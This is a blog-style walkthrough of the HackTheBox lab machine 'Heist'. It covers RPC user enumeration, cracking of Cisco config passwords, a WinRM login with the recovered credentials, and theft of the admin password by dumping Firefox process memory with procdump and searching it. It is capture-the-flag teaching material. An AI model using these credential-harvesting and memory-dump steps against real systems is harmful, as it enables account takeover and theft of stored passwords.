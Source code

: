 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-08-17-heist-hackthebox
tags:
- firefox
- forensics
- hackthebox
- procdump
- rpc
- windows
title: Heist @ HackTheBox
---
```


Heist is an "easy" machine on HackTheBox, involving some enumeration (especially rpc) and some forensics (dumping firefox memory).

## User Flag

Open Ports:

```
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-
5985/tcp open  wsman
```

On 80/443 is a website where we can click "login as guest", gather some potential usernames and download an attachment, a configuration file that contains a few secrets:

```
# usernames
hazard
rout3r
admin
# secrets & decrypted/decoded version
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 : stealth1agent
0242114B0E143F015F5D1E161713 : $uperP@ssword
02375012182C1A1D751618034F36415408 : Q4)sJu\Y8qz*A3?d
```

We used this [website](https://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html) to decrypt the config passwords because they are not really sensitive and use john for the crypt passsword.

We can use `hazard:stealth1agent` to connect to msrpc and enumerate the other local users on the box:

```
rpcclient -U "hazard" heist.htb
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
```

We can now log into the box after some trial and error as "chase:Q4)sJu\\Y8qz\*A3?d" via the [evilwinrm](https://github.com/Hackplayers/evil-winrm) shell.

```
evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

The user flag is on the desktop of chase.

## Root Flag

One way to root the box is to recognize that firefox is running and then crash it. The admin password will now be in some recovery file in the profile folder:

```
# Go to AppData\Local\Mozilla\Firefox
Get-ChildItem -recurse | Get-Content | Select-String -pattern "login_password" 2>$null
```

I did not test this myself as I did not find a way to crash it – if you know how please tell me :)

Another way (the one I actually used) is to dump the process with [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) and then grep through the resulting memory dump:

```
upload procdump.exe
procdump.exe -accepteula -ma <pid>
Select-String -Path *.dmp -Pattern 'login_password' | out-host -paging
```

Either way we get the admin password , use it to connect via winrm and get the root flag.